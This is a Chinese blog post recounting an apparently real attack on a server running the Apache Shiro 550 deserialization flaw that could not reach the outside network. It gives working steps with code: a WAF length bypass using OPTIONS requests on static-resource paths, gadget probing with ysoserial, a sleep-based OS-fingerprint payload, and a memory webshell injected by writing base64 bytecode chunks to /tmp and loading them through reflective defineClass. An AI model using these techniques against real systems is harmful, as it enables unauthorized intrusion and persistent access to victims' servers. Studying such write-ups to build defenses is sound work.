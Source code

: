 #  记一次 Shiro 的实战利用

原创 pen4uin [ pen4uin ](javascript:void\(0\);)

**pen4uin** ![]()

微信号 gh_ffc9f5385230

功能介绍 仅供参考。

____

___发表于_

收录于合集 #漏洞利用 3个

### 0x01 前言

本文记录一次攻防中比较苛刻场景下的 shiro 550 漏洞的不出网利用。

### 0x02 简介

主要内容：

  * 绕过 WAF  对 rememberMe 长度的限制
  * 加载本地字节码 defineClass 注入内存马

### 0x03 漏洞验证

1、验证后端反序列化功能是否正常

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714175128.png)

  

（被拦截）

根据经验猜测大概率是限制了 rememberMe 的长度

2、删减到 300 左右，正常放行

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714175129.png)

  

3、绕过 waf  对 rememberMe 长度的限制

OPTIONS 请求方式 + 静态资源 uri 路径

  * 

    
    
    OPTIONS /app/login;index.css

成功将 rememberMe 的长度提升到 7000 左右

但超过 7000 依然会被拦截，没法再绕

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714175130.png)

  

4、验证后端反序列化功能是否正常

反序列化炸弹

  * 

    
    
    java -jar ysoserial-for-woodpecker-<version>.jar -g FindClassByBomb -a "java.lang.String|25"

延时成功，说明后端功能正常

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714175131.png)

  

5、探测目标是否出网

通过 urldns/httplog/jrmp 的方式探测，发现目标不出网

6、探测反序列化链

通过延时探测反序列化链

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714175132.png)

  

说明目标存在 gadget: CommonsCollections10

### 0x04 漏洞利用

7、梳理信息与思路

请求方式：OPTIONS

  * 分离payload+动态类加载的姿势失效（OPTIONS 无法传递参数）
  * 修改 maxHeaderSize 没用（nignx 反代）

目标不出网

  * 远程加载字节码的姿势失效

利用思路

  * 命令执行/代码执行 写文件马
  * 代码执行 注内存马

8、判断目标操作系统

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    public class Payload extends AbstractTranslet {    public void transform(DOM var1, SerializationHandler[] var2) {}    public void transform(DOM var1, DTMAxisIterator var2, SerializationHandler var3) {}    static {        try {            String osType = System.getProperty("os.name");            if (osType != null && osType.toLowerCase().contains("win")) {                Thread.sleep(3000);            }else {                Thread.sleep(5000);            }        } catch (Throwable var16) {        }    }}

延时6s，说明目标操作系统极大概率为 *nix

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714175133.png)

9、尝试写文件马

通过 find 静态资源文件获取web路径并写入文件马，失败

猜测原因

  * 当前用户权限问题（不是root）
  * 当前应用部署问题（以springboot fatjar的方式部署）

10、排查写入失败原因

在 home 目录写文件

  * 

    
    
    echo 123321 > /home/tmp.txt

判断文件是否写入成功

  *   *   *   *   *   * 

    
    
    File file = new File("/home/tmp.txt");if (file.exists()) {    Thread.sleep(2000);} else {    Thread.sleep(5000);}

延时6s，说明当前权限足够，则很有可能是应用部署层面导致的，文件马的路到此为止，尝试内存马

11、尝试注入内存马

将字节码写到临时目录，然后从目标本地读取文件加载字节码

由于 paylaod 长度限制，内存马需要分散写入，经过测试发现每次最多能写长度为 1600 左右

1）使用 java-memshell-generator 辅助模块延时确认目标中间件为 tomcat

  *   *   *   *   *   *   * 

    
    
    detect_way=Sleepserver_type=Tomcatdnslog_domain=xxx.dnslog.cnhttplog_url=http://xxx.httplog.cnsleep_seconds=5gadget_type=JDK_AbstractTransletformat_type=CLASS

2）拆分内存马，限制每组长度为 1600

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    public static void main(String[] args) {    String input = "[payload]";int groupSize = 1600;int length = input.length();int startIndex = 0;int endIndex = Math.min(length, groupSize);int a = 1;while (startIndex < length) {        String group = input.substring(startIndex, endIndex);        System.out.println(a + ":" + group);        startIndex = endIndex;        endIndex = Math.min(startIndex + groupSize, length);        a++;    }}  
    

拆分成了 14 组

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714175134.png)

3）写入内存马的字节码

  *   *   *   * 

    
    
    // 第1次echo [payload01] > /tmp/log.txt// 第2 - 14次 使用 '>>' 追加文件内容echo [payload14] >> /tmp/log.txt

4）读取字节码进行 defineClass

  * 注意换行符问题

  *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    ClassLoader classLoader = Thread.currentThread().getContextClassLoader();// 读取文件byte[] fileBytes = Files.readAllBytes(Paths.get("/tmp/log.txt"));String fileContent = new String(fileBytes, StandardCharsets.UTF_8);// 删除多余的换行符String base64Str = fileContent.replace("\r","").replace("\n","");byte[] clazzByte = (new BASE64Decoder()).decodeBuffer(base64Str);Method defineClass = ClassLoader.class.getDeclaredMethod("defineClass", byte[].class, Integer.TYPE, Integer.TYPE);defineClass.setAccessible(true);Class clazz = (Class)defineClass.invoke(classLoader, clazzByte, 0, clazzByte.length);clazz.newInstance();  
    

5）成功注入内存马

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714175135.png)

### 0x05  总结

目标虽然成功拿下了，但这是一种不太优雅的利用方式，不管是落地文件还是追加文件内容的选择都有可能会遇到更苛刻的挑战，比如文件无法落地、有负载均衡等。

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

